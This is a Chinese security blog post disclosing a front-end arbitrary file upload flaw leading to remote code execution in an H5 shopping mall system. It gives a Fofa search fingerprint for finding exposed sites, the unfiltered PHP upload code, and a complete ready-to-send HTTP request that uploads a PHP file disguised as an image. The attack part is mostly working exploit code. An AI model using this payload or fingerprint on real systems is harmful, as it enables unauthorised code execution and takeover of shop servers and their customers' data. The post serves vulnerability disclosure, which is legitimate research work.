#  某全新H5购物商城系统存在前台任意文件上传漏洞(RCE)   
原创 Mstir  星悦安全   2024-11-18 03:39  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
**该源码采用HTML5技术开发，可以完美适配各种移动设备，以及iOS和Android系统。同时，易支付接口更为商家提供了便捷的交易功能，让顾客可以轻松通过手机进行网络支付，享受到更加便捷的购物体验。**  
  
**该源码界面设计十分简洁、清爽，同时还保证了购物流程的顺畅和简便。无论是主页、分类页面、商品详情页面，都给人留下了很好的第一印象。**  
  
**Fofa指纹:"/src/images/gg.png" && "/public/goods.php"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpTtyF3DnibTKM22xLLND31aLwT4ggLeZBwMbuIfzkRv7DATkQNSF7jzw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpgXOQIkn0WH9U2A0VQSe23HtsEWY0U5eQwy0TiaDYxIVuGQCg1J4uYUw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dgt3lS90YV5owichy0LsYwpNFZiau02Gm0tKAI6UhZOSOQ713tnzYbtJYiayicyvIGz7BArNbOoTShcw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 0x01 漏洞分析&复现  
位于 /admin/commodtiy/file.php 文件中存在move_uploaded_file 函数上传文件，且未有任何过滤，导致漏洞产生.```
<?php
if($_GET['upload']){
    // 获取上传的文件名
$file = pathinfo($_FILES['file']['name']);
//获取上传文件的后缀
$file_hz= $file['extension'];
//以当前时间来拼接一个文件名
$file_date = date('Ymdhis');
$file_name = $file_date . '.' . $file_hz;
//判断当前目录下是否有upload这个文件没有就创建一个
$path = 'upload/';
$file_path=file_exists($path);
if(!$file_path){
    mkdir($path);
}
//如果有上传文件为就执行下面代码
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    //将上传的临时tmp文件移动到指定位置，并且已指定的file_name来命名文件，成功就echo输出移动后的文件位置。
    if(move_uploaded_file($_FILES['file']['tmp_name'],$path.$file_name)){
        // echo "当前文件保存路径为:".$_FILES['file']['tmp_name'],$path.;
        // echo '文件上传成功';
        echo json_encode('/admin/commodtiy/upload/'.$file_name);
    } else {
        echo '文件上传失败';
    }
} else {
    echo '文件不存在';
}
}

?>
```  
  
**Payload:**  
```
POST /admin/commodtiy/file.php?upload=1 HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 197
Content-Type: multipart/form-data; boundary=------WebKitFormBoundary03rNBzFMIytvpWhy
Cookie: Hm_lvt_d3b3b1b968a56124689d1366adeacf8f=1731328644; PHPSESSID=nbkea3f11cmfad1qhfcm29aqn7; thinkphp_show_page_trace=0|0; bh_myaction=Index%2Findex; _ga=GA1.1.2095806093.1731475984; _gid=GA1.1.546134623.1731475984; yzm=G2DD
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/admin/commodtiy/file.php?upload
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cvwmLNfqaPa6yKjIvibWMKoFsS3YcvaGF9KXweXdzRTwWPJDNh3B2sOgQsT5eoSjh797ccuCoBkYQ/640?wx_fmt=other&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cvwmLNfqaPa6yKjIvibWMKo9FNrsOMs9614Dn8exDyVrDxhiadhQpsiaAMyWAPAhF8WVczdprR0ICWA/640?wx_fmt=other&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**购物商城源码关注公众号发送 241117 获取!**  
  
  
  
  
**进星悦安全公开群添加下方VX 备注 "进群"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fr0w5NqA8l0xH4mcpTbkGK5v6wyHcicibH4ia14Wq1n0fPvn1C0QPAe98oVABtMWOA8nRPfHia0YqAFw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
